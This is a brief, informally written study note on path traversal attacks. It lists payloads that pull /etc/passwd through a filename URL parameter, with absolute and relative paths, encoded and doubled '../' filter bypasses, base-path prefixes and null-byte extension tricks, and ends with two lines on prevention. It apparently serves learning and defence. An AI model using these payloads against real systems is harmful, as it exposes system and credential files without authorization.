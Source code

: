 # path traversal

basicaly if something is loading any kynd of file
and you can manipulate it into running or showing other files
then you can try path traversal

most times used to retrieve /etc/passwd

# filename
parameter in url
?filename=12.png

change to (absolute)
?filename=/etc/passwd

change to (relative)
?filename=../../../../etc/passwd


## sometimes a single ../ is not enough 
....//
%2e%2e%2f
%252e%252e%252f

## sometimes it needs to be include/start/end with certain path
then we can try including it
/var/www/images/../../../etc/passwd
../../../etc/passwd%00.png
../../../etc/passwd%00.jpg

## prevention
checking all input
also making sure it only accesses a certain folder
